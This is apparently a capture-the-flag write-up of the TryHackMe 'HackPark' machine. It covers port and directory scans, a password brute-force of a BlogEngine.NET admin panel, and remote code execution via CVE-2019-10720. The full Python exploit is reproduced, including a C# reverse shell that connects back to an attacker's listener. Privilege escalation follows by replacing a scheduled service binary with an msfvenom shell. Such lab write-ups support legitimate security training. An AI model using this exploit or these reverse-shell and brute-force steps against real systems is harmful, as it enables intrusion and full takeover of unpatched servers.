

Links: [[TryHackMe Boxes]]
#Windows

# HackPark
---
### System IP: Hackpark 10.10.229.44

#### Service Enumeration
Server IP Address | Ports Open
------------------|----------------------------------------
10.10.229.44       | **TCP**: 80,3389

**Nmap Scan Results:**
```
Nmap 7.91 scan initiated Mon Feb  8 19:52:40 2021 as:
==nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /home/ttl0/autorecon/results/10.10.229.44/scans/_full_tcp_nmap.txt -oX /home/ttl0/autorecon/results/10.10.229.44/scans/xml/_full_tcp_nmap.xml 10.10.229.44 ==
adjust_timeouts2: packet supposedly had rtt of -217129 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -217129 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -218365 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -218365 microseconds.  Ignoring time.
Nmap scan report for 10.10.229.44
Host is up, received user-set (0.097s latency).
Scanned at 2021-02-08 19:52:40 EST for 201s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT     STATE SERVICE            REASON          VERSION
==80/tcp   open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5==
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
==3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127==
| ssl-cert: Subject: commonName=hackpark
| Issuer: commonName=hackpark
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-10-01T21:12:23
| Not valid after:  2021-04-02T21:12:23
| MD5:   3032 2fb5 4e45 55fa e4d8 a136 f99f 86d3
| SHA-1: e191 17b5 7329 905e 23e3 93ca d5b1 fbac a510 663b
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQEb15UjQTgLJKpAL7UoyEIzANBgkqhkiG9w0BAQUFADAT
| MREwDwYDVQQDEwhoYWNrcGFyazAeFw0yMDEwMDEyMTEyMjNaFw0yMTA0MDIyMTEy
| MjNaMBMxETAPBgNVBAMTCGhhY2twYXJrMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAm1fEWOj6jEotXN+Ax7vSbTMincJ9PVj6W7U9+bcCvwhQSTJiiPw4
| ySo1dW/SaAS8wgadQqD49XR7/9XhFTyB44lQL54Bmg+pEtNuFFRbx9tOP9AvAzJX
| Bg6baHr2Jffa2sckienx2xrM3UIoJCSg0ooylhNNObxX4IqLKLA4lxVkfHk9QXB8
| wiuYYeVaNFFXtyyiSzuk8Day6n7YutqqDioIASL5ytkz7E/dUyVP5Mxb9QXIqgfN
| //WdwIYQwzOD74sJxjCCxedl5PF82El4ZmhK5GUT9J+XAVLaqBdIijrsR7qjGNYs
| Grp7bJ5j21SUdjJffpr77IHDXbqqtuOtQQIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAHXEudwyb1z0
| 3knkfE0RH4Qddl+N02nZkp9ALtvFqSCjT41uJ3XfVBUG0SQpgxZNlS9BTHxqJgEU
| BCZWTku8pgoI/DPN2k8IjcAd5Bj5Q/4nVaXfm41H6kPbQJEMm4XyiYJQqRZ+qYRN
| 3gDXdMB+BVXj/qNekjaTnUVEg9LOBeiIgJizv8JN4vVABCg7ZCyDgeyKJAI1nPkB
| 5jcq/wSm5l4E5/thCpGPAIfPUzCCRpPBQUTqdEHxW0a0MoZuMY3DwtPHQv++QuNW
| 2utW4p5mlJ1VlkLFhN1LyU9oEpN7mpI0uCCAqzZyyciSpyPi0Te0HDFwJzctb/01
| L/uVjvsNoCI=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-02-09T00:56:02+00:00; +1s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (97%), Microsoft Windows Server 2012 (88%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (88%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=2/8%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6021DDA1%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10C%TS=7)
OPS(O1=M506NW8ST11%O2=M506NW8ST11%O3=M506NW8NNT11%O4=M506NW8ST11%O5=M506NW8ST11%O6=M506ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M506NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Uptime guess: 0.005 days (since Mon Feb  8 19:49:05 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   98.88 ms 10.9.0.1
2   98.89 ms 10.10.229.44

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

**Web Enumeration:**
Browsing the main page of the website on port 80


We can see that the post was created by a potential username *administrator*

Using gobuster on port 80, we find the following:
```
gobuster -u http://10.10.229.44:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -o "/home/ttl0/autorecon/results/10.10.229.44/scans/tcp_80_http_gobuster_dirbuster.txt"

/ADMIN (Status: 302) [Size: 173]
==/Admin (Status: 302) [Size: 173]==
/Archive (Status: 200) [Size: 8325]
/Archive.aspx (Status: 200) [Size: 8330]
/Blog.aspx (Status: 200) [Size: 9006]
/Content (Status: 301) [Size: 155]
/Default.aspx (Status: 200) [Size: 9009]
/ContactUs (Status: 200) [Size: 9937]
/Contact (Status: 200) [Size: 9935]
/Contact.aspx (Status: 200) [Size: 9940]
/Scripts (Status: 301) [Size: 155]
/Search (Status: 200) [Size: 8407]
/Search.aspx (Status: 200) [Size: 8412]
/account (Status: 301) [Size: 155]
/admin (Status: 302) [Size: 173]
/archive (Status: 200) [Size: 8325]
/archive.aspx (Status: 200) [Size: 8330]
/archives (Status: 200) [Size: 8326]
/aspnet_client (Status: 301) [Size: 161]
/blog.aspx (Status: 200) [Size: 9006]
/contact (Status: 200) [Size: 9935]
/contact.aspx (Status: 200) [Size: 9940]
/contact-form (Status: 200) [Size: 9940]
/contact-us (Status: 200) [Size: 9938]
/contact_bean (Status: 200) [Size: 9940]
/contact_us (Status: 200) [Size: 9938]
/contacts (Status: 200) [Size: 9936]
/contactinfo (Status: 200) [Size: 9939]
/contacto (Status: 200) [Size: 9936]
/contactus (Status: 200) [Size: 9937]
/content (Status: 301) [Size: 155]
/custom (Status: 301) [Size: 154]
/default.aspx (Status: 200) [Size: 9009]
/error.aspx (Status: 200) [Size: 7559]
/fonts (Status: 301) [Size: 153]
/page.aspx (Status: 302) [Size: 138]
/post.aspx (Status: 302) [Size: 151]
/robots.txt (Status: 200) [Size: 303]
/robots.txt (Status: 200) [Size: 303]
/scripts (Status: 301) [Size: 155]
/search (Status: 200) [Size: 8407]
/search.aspx (Status: 200) [Size: 8412]
/search-results (Status: 200) [Size: 8415]
/search_results (Status: 200) [Size: 8415]
/search_result (Status: 200) [Size: 8414]
/searchresults (Status: 200) [Size: 8414]
/searchnx (Status: 200) [Size: 8409]
/searchurl (Status: 200) [Size: 8410]
/setup (Status: 302) [Size: 175]
```

Login to 10.10.229.44/admin reveals a log in page


This webserver is running blogengine.net
Online research to check default credentials of blogengine.net


We found that the default username for blogengine is ==admin== and password is ==password==
We failed logging in with default username and password.


Using ZAP we try and bruteforce using a fuzz attack
We use the following parameters for the attack:
```
username: admin
password: /usr/share/wordlists/rockyou.txt
```


We are able to find that the username: ==admin== and password: ==1qaz2wsx==
We login with credentials in the admin panel


We find the version number in the about section


**Initial Shell Vulnerability Exploited**
We found the remote execution code for this version of the blog through searchsploit


The full explanation can be found at https://nvd.nist.gov/vuln/detail/CVE-2019-10719

We start a listener for the exploit with: 
```
nc -lvnp 1337
```


We run the exploit
```
python exploit.py -t 10.10.229.44 -l 10.9.1.171:1337 -u admin -p 1qaz2wsx
```


We get a reverse shell


We are logged in as user: ==iis apppool==
```
c:\windows\system32\inetsrv>whoami
==iis apppool\blog==
```

**Vulnerability Explanation:**
CVE-2019-10720
BlogEngine.NET 3.3.7.0 and earlier allows Directory Traversal and Remote Code Execution because file creation is mishandled, related to /api/upload and BlogEngine.NET/AppCode/Api/UploadController.cs. NOTE: this issue exists because of an incomplete fix for CVE-2019-6714. This particular exploit triggers an RCE through the theme cookie.

**Vulnerability Fix:**
This vulnerability can be fixed by upgrading to a new version of BlogEngine.

**Severity:**
High - Based score of 8.8 from https://nvd.nist.gov/vuln/detail/CVE-2019-10719

**Proof of Concept Code Here:**
```
# Exploit Title: Directory Traversal + RCE on BlogEngine.NET
# Date: 17 Jun 2019
# Exploit Author: Aaron Bishop
# Vendor Homepage: https://blogengine.io/
# Version: v3.3.7
# Tested on: 3.3.7, 3.3.6
# CVE : 2019-10720

import argparse
import io
import json
import os
import re
import requests
import sys

"""
Exploit for CVE-2019-10719

CVE Identified by: Aaron Bishop
Exploit written by: Aaron Bishop

Upload and trigger a reverse shell

python exploit.py -t 192.168.10.9 -l 192.168.10.10:1337

Open a listener to capture the reverse shell - Metasploit or netcat

nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.10.10] from (UNKNOWN) [192.168.10.9] 49680
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

"""

urls = {
        "login": "/Account/login.aspx",
        "traversal": "/api/filemanager"
       }


def make_request(session, method, target, params={}, data={}, files={}):
    proxies = {
            "http": "127.0.0.1:8080",
            "https": "127.0.0.1:8080"
              }
    if method == 'GET':
        r = requests.Request(method, target, params=params)
    elif method == 'POST':
        if files:
            r = requests.Request(method, target, files=files)
        else:
            r = requests.Request(method, target, data=data)
    prep = session.prepare_request(r)
    resp = session.send(prep, verify=False, proxies=proxies)
    return resp.text

def login(session, host, user, passwd):
    resp = make_request(session, 'GET', host+urls.get('login'))
    login_form = re.findall('<input\s+.*?name="(?P<name>.*?)"\s+.*?(?P<tag>\s+value="(?P<value>.*)")?\s/>', resp)
    login_data = dict([(i[0],i[2]) for i in login_form])
    login_data.update({'ctl00$MainContent$LoginUser$UserName': user})
    login_data.update({'ctl00$MainContent$LoginUser$Password': passwd})
    resp = make_request(session, 'POST', host+urls.get('login'), data=login_data)

def upload_shell(session, target, listener):
    try:
        lhost, lport = listener.split(':')
    except:
       print(target, " is not in the correct HOST:PORT format")
       sys.exit(1)

    shell = '''<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("''' + lhost + '''", ''' + lport + ''')) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);

				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
'''
    make_request(session, "POST", target + "/api/upload?action=filemgr", files={"file": ("PostView.ascx", shell, "application/octet-stream")})

def trigger_shell(session, target):
    import datetime
    now = datetime.datetime.now().strftime("%Y/%m/")
    requests.get(target + "/", cookies={"theme": "../../App_Data/files/{}".format(now)})

def main(target, user, passwd, listener):
    with requests.Session() as session:
        login(session, target, user, passwd)
        upload_shell(session, target, listener)
        trigger_shell(session, target)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Exploit CVE-2019-10720 Path traversal + RCE')
    parser.add_argument('-t', '--target', action="store", dest="target", required=True, help='Target host')
    parser.add_argument('-u', '--user', default="admin", action="store", dest="user", help='Account with file upload permissions on blog')
    parser.add_argument('-p', '--passwd', default="admin", action="store", dest="passwd", help='Password for account')
    parser.add_argument('-s', '--ssl', action="store_true", help="Force SSL")
    parser.add_argument('-l', '--listener', action="store", help="Host:Port combination reverse shell should back to - 192.168.10.10:1337")
    args = parser.parse_args()

    protocol = "https://" if args.ssl else "http://"
    main(protocol + args.target, args.user, args.passwd, args.listener)
```

#### Privilege Escalation

Running winPEAS enumeration script we found a service auto running with the file permissions Everyone WriteData/CreateFiles
```
=================================================================================================
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper

```

We look through the logs of that service and by browsing to that directory:
```
cd "C:\PROGRA~2\SYSTEM~1\Events>"
type 20198415519.INI_LOG.txt

02/09/21 17:50:06,Event Started Ok, (Administrator)
02/09/21 17:50:36,Process Ended. PID:956,ExitCode:4,Message.exe (Administrator)
02/09/21 17:51:06,Event Started Ok, (Administrator)
02/09/21 17:51:37,Process Ended. PID:1964,ExitCode:4,Message.exe (Administrator)
02/09/21 17:52:05,Event Started Ok, (Administrator)
02/09/21 17:52:34,Process Ended. PID:3276,ExitCode:4,Message.exe (Administrator)
02/09/21 17:53:04,Event Started Ok, (Administrator)
02/09/21 17:53:33,Process Ended. PID:3928,ExitCode:4,Message.exe (Administrator)
02/09/21 17:54:04,Event Started Ok, (Administrator)
02/09/21 17:54:35,Process Ended. PID:3732,ExitCode:4,Message.exe (Administrator)
02/09/21 17:55:06,Event Started Ok, (Administrator)
02/09/21 17:55:35,Process Ended. PID:2644,ExitCode:4,Message.exe (Administrator)
02/09/21 17:56:05,Event Started Ok, (Administrator)
02/09/21 17:56:34,Process Ended. PID:2188,ExitCode:4,Message.exe (Administrator)
02/09/21 17:57:06,Event Started Ok, (Administrator)
02/09/21 17:57:36,Process Ended. PID:1796,ExitCode:4,Message.exe (Administrator)
02/09/21 17:58:05,Event Started Ok, (Administrator)
02/09/21 17:58:34,Process Ended. PID:1964,ExitCode:4,Message.exe (Administrator)
02/09/21 17:59:04,Event Started Ok, (Administrator)
02/09/21 17:59:34,Process Ended. PID:3468,ExitCode:4,Message.exe (Administrator)
02/09/21 18:00:06,Event Started Ok, (Administrator)
02/09/21 18:00:35,Process Ended. PID:2176,ExitCode:4,Message.exe (Administrator)
02/09/21 18:01:05,Event Started Ok, (Administrator)
02/09/21 18:01:34,Process Ended. PID:4068,ExitCode:4,Message.exe (Administrator)
02/09/21 18:02:05,Event Started Ok, (Administrator)
02/09/21 18:02:34,Process Ended. PID:2780,ExitCode:4,Message.exe (Administrator)
02/09/21 18:03:06,Event Started Ok, (Administrator)
```

We see that Message.exe is running over and over again.

We create a reverse shell .exe using msfvenom and start a netcat listener


We overwrite message.exe with our new .exe
```
C:\PROGRA~2\SYSTEM~1>
==copy "c:\windows\temp\shell.exe" message.exe==
C:\PROGRA~2\SYSTEM~1>copy "c:\windows\temp\shell.exe" message.exe


Overwrite message.exe? (Yes/No/All): 
==yes==
Overwrite message.exe? (Yes/No/All): yes
        1 file(s) copied.
```

We gain access with our netcat session as ==Administrator==
```
C:\PROGRA~2\SYSTEM~1>echo %username%
echo %username%
Administrator
```


**Vulnerability Exploited:**
Incorrect permissions in services

**Vulnerability Explanation:**
A system scheduler running an executable with Administrator/SYSTEM permissions might allow Escalation of Privileges. You can replace the executable, restart the service and get shell access to the user permissions.

**Vulnerability Fix:**
Change the system scheduler to run executable with a lower user permission.

**Proof Screenshot Here:**



**Proof.txt Contents:**
```
c:\Users\Administrator\Desktop>hostname && echo %username%% && type root.txt && ipconfig /all
hostname && echo %username%% && type root.txt && ipconfig /all
hackpark
Administrator% 
7e13d97f05f7ceb9881a3eb3d78d3e72
Windows IP Configuration

   Host Name . . . . . . . . . . . . : hackpark
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : eu-west-1.ec2-utilities.amazonaws.com
                                       eu-west-1.compute.internal

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : AWS PV Network Device #0
   Physical Address. . . . . . . . . : 02-71-72-DE-9F-D3
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::3c7e:2812:2430:373%14(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.229.44(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Tuesday, February 9, 2021 3:04:49 PM
   Lease Expires . . . . . . . . . . : Tuesday, February 9, 2021 7:04:52 PM
   Default Gateway . . . . . . . . . : 10.10.0.1
   DHCP Server . . . . . . . . . . . : 10.10.0.1
   DHCPv6 IAID . . . . . . . . . . . : 335943906
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-24-DA-49-4B-08-00-27-7A-66-52
   DNS Servers . . . . . . . . . . . : 10.0.0.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

```